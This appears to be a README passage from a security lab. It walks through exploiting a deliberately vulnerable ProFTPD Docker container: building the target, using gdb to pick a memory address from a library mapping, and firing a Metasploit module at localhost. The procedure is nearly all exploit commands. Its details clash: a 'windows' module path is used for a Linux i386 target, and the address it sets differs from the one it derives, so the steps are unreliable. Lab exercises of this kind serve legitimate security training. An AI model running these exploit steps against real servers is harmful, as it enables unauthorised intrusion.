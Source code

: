 ## Running the ProFTPD exploit

1. Build and run the image, and exec into it.
```sh
docker build -t vuln-proftpd -f vulnTarget.Dockerfile .
docker run -d --name vuln-target -p 2121:21 vuln-proftpd
docker exec -it --privileged vuln-target bash
```
2. In the container, run `gdb -p $(pgrep -f 'proftpd.*accepting')` to get the required memory address for the exploit.
```gdb
(gdb) i proc m

# Pick the data section of one library, for example:
0xb7677000 0xb767e000     0x7000   0x1a2000 /lib/i386-linux-gnu/libcrypto.so.1.0.0

# Also, make sure it doesn't have any zero bytes, so add 1 to 
# 0xb7677000, getting 0xb7677001
```

3. Run `msfconsole`
4. In the msfconsole:
```
use exploit/windows/ftp/proftp_sreplace_getkey
set rhost 127.0.0.1
set non_empty_high 0x7fdebb0fb001
exploit
```
